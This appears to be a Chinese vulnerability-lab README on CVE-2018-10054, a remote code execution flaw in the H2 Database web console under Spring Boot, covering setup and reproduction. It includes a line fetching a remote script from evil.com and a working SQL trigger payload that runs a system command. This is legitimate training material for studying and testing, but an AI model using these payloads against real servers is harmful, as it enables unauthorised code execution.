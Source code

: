 # H2 Database Web Console认证远程代码执行漏洞（CVE-2018-10054）

H2 Database是一个快速、开源的基于Java的关系型数据库管理系统（RDBMS），可用于嵌入式（集成在Java应用中）或客户端-服务器模式中。

当Spring Boot集成H2 Database时，如果设置如下选项，将会启用一个Web管理页面：

```
spring.h2.console.enabled=true
spring.h2.console.settings.web-allow-others=true
```

在1.4.198之前的H2 Database版本中，任何用户都可以通过创建新的数据库文件或连接到内存数据库来访问Web管理页面。认证通过后，攻击者可以通过以下命令之一执行任意代码：

- `RUNSCRIPT FROM 'http://evil.com/script.sql'`
- `CREATE ALIAS func AS code...; CALL func ...`
- `CREATE TRIGGER ... AS code...`

参考链接：

- <https://mthbernardes.github.io/rce/2018/03/14/abusing-h2-database-alias.html>
- <https://www.exploit-db.com/exploits/45506>
- <https://github.com/h2database/h2database/issues/1225>
- <https://github.com/h2database/h2database/pull/1580>
- <https://github.com/h2database/h2database/pull/1726>

## 环境搭建

执行如下命令启动一个集成了H2 Database 1.4.197版本的Spring Boot：

```
docker compose up -d
```

容器启动后，Spring Boot服务监听在`http://your-ip:8080`，H2管理页面默认地址为`http://your-ip:8080/h2-console/`。

## 漏洞复现

首先，通过连接内存数据库登录H2 Web控制台：

```
jdbc:h2:mem:test
```

![](1.png)

然后，执行如下命令以执行`id`命令：

```sql
CREATE TRIGGER shell3 BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript
    var is = java.lang.Runtime.getRuntime().exec("id").getInputStream()
    var scanner = new java.util.Scanner(is).useDelimiter("\\A")
    throw new java.lang.Exception(scanner.next())
$$;
```

可见，`id`命令被成功执行，结果以异常的形式被抛出：

![](2.png)
